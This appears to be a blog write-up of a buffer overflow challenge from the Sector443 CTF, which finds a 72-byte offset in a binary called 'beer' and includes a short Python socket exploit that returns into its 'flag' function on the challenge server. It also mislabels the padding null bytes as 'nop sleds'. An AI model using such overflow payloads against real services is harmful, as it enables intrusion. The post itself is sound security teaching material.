 This pwn challenge was part of Sector443 CTF.  
The challenge files ->[here](https://github.com/anushang/CTFs)  
Read about basics here before reading this post. [READ](https://owasp.org/www-community/vulnerabilities/Buffer_Overflow)  
This challenge was simple and fun as it involved overflowing beer ;)  
![_config.yml]({{ site.baseurl }}/images/bofgit2.png)

As you can already guess by the looks of it, it's a buffer overflow challenge and all we have to do is overflow the stack and get our stack pointer to point to a location in a memory which we can take advantage of.  
Let's quickly check if is vulnerable to the attack.
![_config.yml]({{ site.baseurl }}/images/bofgit1.png)

bingo!
We just sent random characters and we got ourselves a segmentation fault error!
So all now we have to do :
1. Reverse the ELF and find something intersting to jump upon which can lead to our flag .
2. Find it's address on stack.
3. Make a python script to pwn the challenge.  
There are many ways to do this.    
We can use Ghidra to find what ELF do and what their funcions do. I will just list the functions using objdump.
```
objdump -d beer
```
In the output the function *flag* looks interesting.
![_config.yml]({{ site.baseurl }}/images/gitbof3.png)

Jot down the address of the function and now we have to make simple python script to launch the attack.  
How do we create the payload(aka our strings to send in our exploit)?
1. Find the offset and note it down.
2. Use the function address which we just noted down and make the program return to it.  
To find the offset just send bunch of characters and notice at what lenth the program crashes.
Our beer program crashed when we sent more than 72 characters.
![_config.yml]({{ site.baseurl }}/images/gitbof4.png)

As we have already noticed beer is ELF 64-bit LSB executable, so we have to write the address in Little endian format "\x10\x12\x40".  
Now we write the exploit.
```python
import socket
buf="A"*72 +"\x10\x12\x40"+"\x00"*5
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("172.105.53.6",32771))
    s.recv(4000)
    print s.recv(1024)
    s.send(buf+"\r\n")
    print s.recv(1024)
    print s.recv(1024)

    
except:
    print "Error try again!"
```
and it worked! The flag was returned.  
If you are wondering what heck are bunch of \x00 in the end, they are just nop sleds.


